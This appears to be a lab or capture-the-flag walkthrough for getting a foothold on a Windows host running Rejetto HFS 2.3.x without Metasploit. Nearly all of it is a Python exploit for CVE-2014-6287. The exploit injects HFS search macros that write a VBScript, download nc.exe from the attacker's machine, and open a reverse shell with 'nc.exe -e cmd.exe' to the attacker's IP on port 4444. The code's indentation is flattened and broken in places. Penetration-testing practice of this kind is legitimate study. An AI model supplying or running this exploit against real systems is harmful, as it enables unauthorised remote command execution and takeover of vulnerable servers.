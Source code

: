 ### **Access and Escalation Without Metasploit** <a href="#ns8lp1d49c8x" id="ns8lp1d49c8x"></a>

* Use PowerShell and WinPEAS to enumerate target and collect relevant information to escalate.

**1. Exploit CVE-2014-6287.**

* Use[ Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161).
  * Download raw text into new file named "exploit.py".
    * Edit ip\_addr in script to attacking machine.

\#!/usr/bin/python

\# This is a modification of the original exploit : https://www.exploit-db.com/exploits/39161

\# works with python3

import urllib.request as urllib2

import sys

try:

def script\_create():

urllib2.urlopen("http://"+sys.argv\[1]+":"+sys.argv\[2]+"/?search=%00{.+"+save+".}")

def execute\_script():

urllib2.urlopen("http://"+sys.argv\[1]+":"+sys.argv\[2]+"/?search=%00{.+"+exe+".}")

def nc\_run():

urllib2.urlopen("http://"+sys.argv\[1]+":"+sys.argv\[2]+"/?search=%00{.+"+exe1+".}")

ip\_addr = "Your Local IP" #local IP address

local\_port = "4444" # Local Port number

vbs = r"C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip\_addr+":8000"+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"

save= "save|" + vbs

vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"

exe= "exec|"+vbs2

vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip\_addr+"%20"+local\_port

exe1= "exec|"+vbs3

script\_create()

execute\_script()

nc\_run()
